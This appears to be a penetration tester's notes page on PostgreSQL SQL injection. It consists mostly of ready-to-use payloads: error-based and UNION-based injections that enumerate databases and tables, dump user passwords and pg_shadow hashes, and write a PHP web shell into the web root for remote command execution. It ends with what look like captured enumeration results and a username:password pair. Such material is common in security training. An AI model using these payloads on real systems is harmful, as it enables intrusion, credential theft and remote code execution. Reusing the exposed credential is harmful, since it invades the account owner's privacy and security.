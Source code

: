 # PostgreSQL

## Methodology

See [0 SQL Injection](0%20SQL%20Injection.md) for identification if necessary

Utilize [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md) for additional guidance

### Error-based Payloads vs Authentication Queries

We can first attempt to dump information in an error response. This is particularly useful against authentication against authenticaton queries as a valid/invalid response will not display table information.

```mysql
# We can first attempt to view version information inside the error response
' OR 1=1 in (SELECT version()) -- //
'
# We can now attempt to dump table information
' OR 1=1 in (SELECT * FROM users) -- //
'
# In the case where we can only query one column at a time
' OR 1=1 in (SELECT password FROM users) -- //
'
# We can now specify a user to dump the password for
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```

Refer to [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md) for additional example queries

### UNION-based/Error-based payloads vs Search Queries

We can use `ORDER BY` and `UNION SELECT` in a search field to visualize and enumerate a database with many columns.

**Note** PostgreSQL differs from MySQL in `UNION SELECT` statements due to having to match the variable types within the statement. We can aid in matching types by casting with `::` after the character

```mysql
# We first use ORDER BY and increment until we receive an error
' ORDER BY 1 -- //
' ORDER BY 1,2 -- //
' ORDER BY 1,2,3 -- //
' ORDER BY 1,2,3,4 -- //
' ORDER BY 1,2,3,4,5 -- //
' ORDER BY 1,2,3,4,5,6 -- //
# We now get the error "Unknown column '6' in 'order clause'" so we know the database has 6 columns

# We can now check to see which values are being returned by providing each column with an identifier that we can quickly index and check for in the response
' UNION SELECT 'Col1', 'Col2', 'Col3', 'Col4', 'Col5', 'Col6' -- //
'
# We can now rearange our statement to first query baseline information
' UNION SELECT null, current_database(), user, version(), null -- //
' UNION SELECT null, CAST(current_database() as integer), null, null, null -- //
' UNION SELECT null, CAST(passwd as integer), null, null, null, null FROM pg_shadow -- //
'
# Now we can query all databases available for us to enumerate (note: information_schema is default)
' UNION SELECT null, datname, null, null, null FROM pg_database -- //
' UNION SELECT null, CAST((SELECT datname FROM pg_database) as integer), null, null, null -- //
# In the case where we have to limit output due to not allowing more than one row to be returned (increment offset)
' UNION SELECT null, CAST((SELECT datname FROM pg_database LIMIT 1 OFFSET 0) as integer), null, null, null -- //
'
# We can now query tables for our desired databases
' UNION SELECT null, table_name, null, null, null FROM information_schema.tables WHERE table_schema='db_name' -- //
' UNION SELECT null, CAST((SELECT table_name FROM information_schema.tables WHERE table_schema='db_name') as integer), null, null, null -- //

# We can now query columns for our desired table
' UNION SELECT null, column_name, null, null, null FROM information_schema.columns WHERE table_schema='db_name' -- //
' UNION SELECT null, CAST((SELECT column_name FROM information_schema.columns WHERE table_schema='db_name' LIMIT 1 OFFSET 0) as integer), null, null, null -- //

# We now have all the information we need to query table data
' UNION SELECT null, username, password, description, null FROM users -- //
' UNION SELECT null, username, password, description, null FROM users WHERE username='admin' -- //

# We can also leak variables within error data via CAST()
' UNION SELECT null, CAST(version() as integer), null, null, null -- //
' UNION SELECT null, CAST((SELECT * FROM users) as integer), null, null, null -- //
# Miscellaneous functions: current_database(), current_schema(), current_schemas(boolean), current_user, session_user, user, version() - https://www.postgresql.org/docs/7.3/functions-misc.html

# RCE (doesn't matter if PHP code is in viewable column)
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/shell.php" -- //
'; COPY (SELECT '<?php system($_GET[''cmd'']);?>') TO '/var/www/html/shell.php' -- //
```

**Note:** We can also add a `%` before the single quote to bypass input validation

### Boolean-Based Blind SQL Injection

Used in the case where database responses are never returned and behavior is inferred using either boolean or time-based logic.

```mysql
# Time based identification (value before ' must be exist for sleep to succeed, allowing us to identify existing values)
' AND IF (1=1, sleep(2),'false') -- //
```

Current user: rubben
Database: postgres | template1 | template0 | glovedb
Table: public

Columns: active | weight | height | gender | email | created_at

rubben:avrillavigne
